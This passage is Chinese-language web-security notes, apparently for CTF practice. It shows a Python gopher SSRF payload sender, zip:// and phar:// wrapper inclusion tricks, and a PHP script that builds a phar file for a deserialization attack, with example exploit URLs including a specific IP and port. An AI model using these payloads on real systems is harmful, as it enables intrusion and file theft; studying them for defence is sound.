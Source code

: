# 生成payload

payload = url + quote(gopher,'utf-8') + encoder

# 发起请求

request = urllib.request.Request(payload)

response = urllib.request.urlopen(request).read()

print(response)

zip://协议

zip://协议可以用来访问服务器中的压缩包，无论压缩包里面的文件是什么类型的都可以执行。也就是说如果服务器禁止我们上传php文件那么我们可以把php文件改后缀然后压缩再上传，然后用zip协议访问。要利用zip协议时一般要结合文件上传与文件包含两个漏洞

一般的代码为

www.xxx.xxx/?file=zip:///php.zip#phpinfo.jpg

其中的#好表示的是php.zip的子文件名。有时候#需要变成==%23==，url编码。

compress.bzip2://协议

与zip协议类似不过要压缩成bzip2格式的

compress.zlib://协议

与zip协议类似不过要压缩成zlib格式的

# phar://协议
```php
<?php
class upload{
    public $filename = '/flag';  //赋值给$filename

}

$phar = new Phar("phar.phar");		//创建phar文件
$phar->startBuffering();
$phar->setStub("Syc"."<?php __HALT_COMPILER(); ?>");	//文件头

$o = new upload();
$phar->setMetadata($o);					//

$phar->addFromString("test.gif", "GIF89");
$phar->stopBuffering();
```

使用方法： `http://49.232.69.196:48113/?img_name=phar://upload/phar.gif`

phar://协议与zip://协议类似，它也可以访问zip包，访问的格式与zip的不同，如下所示

[http://127.0.0.1/include.php?](http://127.0.0.1/include.php?)

file=phar:///phpinfo.zip/phpinfo.txt    //这里用/隔开了子文件

(https://blog.csdn.net/weixin_51735061/article/details/123156046)